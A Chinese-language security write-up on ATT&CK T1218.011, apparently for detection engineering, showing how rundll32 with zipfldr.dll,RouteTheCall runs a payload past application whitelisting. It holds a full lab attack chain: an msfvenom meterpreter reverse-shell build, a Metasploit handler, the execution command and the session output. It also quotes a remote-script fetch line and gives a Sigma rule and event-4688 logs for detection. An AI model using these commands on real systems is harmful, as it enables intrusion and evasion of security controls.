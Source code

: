 # T1218-011-win-基于白名单Zipfldr.dll执行Payload

## 来自ATT&CK的描述

Rundll32.exe程序可以调用来执行任意二进制文件。攻击者可能会利用此功能来代理执行代码，从而避免触发那些可能不会监控rundll32.exe进程执行的安全工具，因为正常操作中使用rundll32.exe的Windows会有白名单或误报。

Rundll32.exe可用于通过未记录的shell32.dll函数Control_RunDLL和 Control_RunDLLAsUser来执行控制面板项目文件（.cpl）。双击.cpl文件也会触发rundll32.exe执行。

Rundll32也可用于执行JavaScript等脚本。可以使用类似于下面的语法来完成：rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")" 。这种方法已被恶意软件如Poweliks所使用。

## 测试案例

zipfldr.dll自Windows xp开始自带的zip文件压缩/解压工具组件，同样该工具支持WinXP-Win10 全版本，zipfldr.dll所在路径已被系统添加PATH环境变量中，因此zipfldr.dll命令可识别，但由于为dll文件，需调用rundll32.exe来执行。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

 Windows 2003 默认位置：

C:\Windows\System32\zipfldr.dll

C:\Windows\SysWOW64\zipfldr.dll

Windows 7 默认位置：

C:\Windows\System32\zipfldr.dll

C:\Windows\SysWOW64\zipfldr.dll

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 攻击分析

#### 生成payload.dll

```bash
root@12306Br0:~# msfvenom -p windows/meterpreter/reverse_tcp -b '\x00\x0b' LHOST=192.168.126.146 LPORT=4444 -f exe > shell.exe
```

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploits/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > set AutoRunScript migrate f
AutoRunScript => migrate f
msf5 exploit(multi/handler) > exploit
```

#### 靶机执行payload

```cmd
rundll32.exe zipfldr.dll,RouteTheCall .\shell.exe #shell.exe存放路径下执行
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Sending stage (180291 bytes) to 192.168.126.156
[*] Meterpreter session 6 opened (192.168.126.146:4444 -> 192.168.126.156:49176) at 2020-04-13 10:54:22 +0800
[*] Session ID 6 (192.168.126.146:4444 -> 192.168.126.156:49176) processing AutoRunScript 'migrate f'
[!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
[!] Example: run post/windows/manage/migrate OPTION=value [...]

meterpreter > getuid
Server username: WIN-IFPMACUK8BT\Administrator

```

## 测试留痕

安全日志能够清晰的记录命令行参数，截取windows安全事件4688进程创建部分内容：

```log
进程信息: #4688-1
新进程 ID:0x918
新进程名称:C:\Windows\System32\rundll32.exe
令牌提升类型:TokenElevationTypeDefault (1)
创建者进程 ID:0x948
进程命令行:rundll32.exe  zipfldr.dll,RouteTheCall .\shell.exe

进程信息: #4688-2
新进程 ID:0x94c
新进程名称:C:\Users\Administrator\Desktop\a\shell.exe
令牌提升类型:TokenElevationTypeDefault (1)
创建者进程 ID:0x918
进程命令行:"C:\Users\Administrator\Desktop\a\shell.exe"
```

## 检测规则/思路

### sigma规则

```yml
title: 可疑Rundll32活动
description: 基于参数检测与rundll32相关的可疑进程
status: experimental
references:
    - http://www.hexacorn.com/blog/2017/05/01/running-programs-via-proxy-jumping-on-a-edr-bypass-trampoline/
    - https://twitter.com/Hexacorn/status/885258886428725250
    - https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52
tags:
    - attack.defense_evasion
    - attack.execution
    - attack.t1085
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        CommandLine:
            - '*\rundll32.exe* url.dll,*OpenURL *'
            - '*\rundll32.exe* url.dll,*OpenURLA *'
            - '*\rundll32.exe* url.dll,*FileProtocolHandler *'
            - '*\rundll32.exe* zipfldr.dll,*RouteTheCall *'
            - '*\rundll32.exe* Shell32.dll,*Control_RunDLL *'
            - '*\rundll32.exe javascript:*'
            - '* url.dll,*OpenURL *'
            - '* url.dll,*OpenURLA *'
            - '* url.dll,*FileProtocolHandler *'
            - '* zipfldr.dll,*RouteTheCall *'
            - '* Shell32.dll,*Control_RunDLL *'
            - '* javascript:*'
            - '*.RegisterXLL*'
    condition: selection
falsepositives:
    - False positives depend on scripts and administrative tools used in the monitored environment
level: medium
```

### 建议

可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略Sysmon。

## 参考推荐

MITRE-ATT&CK-T1085

<https://attack.mitre.org/techniques/T1085/>

基于白名单的Payload

<https://blog.csdn.net/weixin_30790841/article/details/101848854>
